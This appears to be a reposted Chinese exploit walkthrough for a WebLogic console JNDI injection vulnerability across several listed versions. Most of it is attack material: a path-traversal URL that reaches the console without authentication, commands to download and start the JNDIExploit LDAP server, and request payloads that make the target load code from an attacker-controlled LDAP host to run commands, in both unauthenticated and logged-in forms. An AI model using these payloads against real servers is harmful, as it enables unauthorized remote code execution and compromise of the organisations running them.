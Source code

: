 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/PuHjPUnYq1ah_F9NkSOACg)

### 漏洞影响

WebLogic Server 10.3.6.0.0

WebLogic Server 12.1.3.0.0

WebLogic Server 12.2.1.3.0

WebLogic Server 12.2.1.4.0

WebLogic Server 14.1.1.0.0

### 漏洞复现

访问一下 URL

http://xxx.xxx.xxx.xxx:7001/console/css/%252e%252e%252f/consolejndi.portal

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknlRfsic8XkCtS1exdQBE2JtxPKoXYKxPic8IkiasVkR7GvFBXHJdk4QNNw/640?wx_fmt=png)

如果有此页面未授权可访问，且在影响范围内则可能出现漏洞

下载漏洞攻击需要的 LDAP 启动脚本

```
https://github.com/feihong-cs/JNDIExploit/releases/tag/v.1.11 #下载地址
unzip JNDIExploit.v1.11.zip 
java -jar JNDIExploit.v1.11.jar -i xxx.xxx.xxx.xxx #启动
```

服务器启动，注意放行服务器端口，切 jdk 版本为低版本，我用到 jdk8

```
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLkn1x3GBCibMvEA6QwZbIm7C0GdrD9p3bfbQc1cHiaNAiahKOr5Sd4ZUG9xQ/640?wx_fmt=png)

然后配合 Weblogic 未授权范围 命令执行

```
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ4gPzehL2dMYEen53VkLknNuUaGgAQ250F3yzgKDoEiaALiae1rLHDTUfaZ1Y0pFqKicXCF9XyZCDDA/640?wx_fmt=png)

登录后台可使用此 POC，未授权的话用上面的

```
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```
